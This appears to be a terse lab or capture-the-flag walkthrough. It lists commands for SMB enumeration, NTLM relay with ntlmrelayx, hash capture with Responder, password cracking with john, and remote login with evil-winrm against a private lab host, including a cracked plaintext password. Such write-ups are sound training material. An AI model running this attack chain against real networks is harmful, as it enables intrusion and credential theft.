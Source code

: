 dddd

```
nmap -sT -sV 192.168.2.10 -p- -v -sC   
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/51a14674-777b-4d0b-af75-8fa1dafbb111)

```
smbmap -H 192.168.2.10 -u "guest" -p "" -d codeby.cdb
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9614c6dd-1708-4ce1-ba8c-d8f31e30c194)
```
smbclient -no-pass //192.168.2.10/Files-for-checkers
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ac244dec-07a4-4de4-8c10-7660ac6cb37a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b3e7b5b1-a533-4e9e-9c8a-f0e0e53ec1a3)

```
impacket-ntlmrelayx -t 192.168.2.10  -smb2support -debug  
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a984c248-c211-4e67-8ca4-c3d99cd73c36)

https://pentestlab.blog/tag/smb-relay/

https://xakep.ru/2023/04/07/ntlm-relay-guide/#toc04.2

```
sudo responder -wd -I eth0
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cdbe0d6-b20f-477e-abd0-acd2923370f5)

```
john --wordlist=/home/kali/PAYLOADS/rockyou.txt hash_pass.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e216110c-dd36-4911-826a-9bbb3a9e54b2)
```
evil-winrm -i 192.168.2.10 -u 'albert.morozov' -p 'MissDivaGirlno1'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ced3007d-f8a7-4737-8bad-9dee47deb159)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f16b6da8-76f4-4340-a34f-fa898db1179c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f74c3a4b-9d74-4460-a305-db0363889c3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d6fa22e4-c734-43e5-bb3f-a9c65a51d086)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e909d3ab-97fd-43c7-a5a7-b2c0663d73ea)



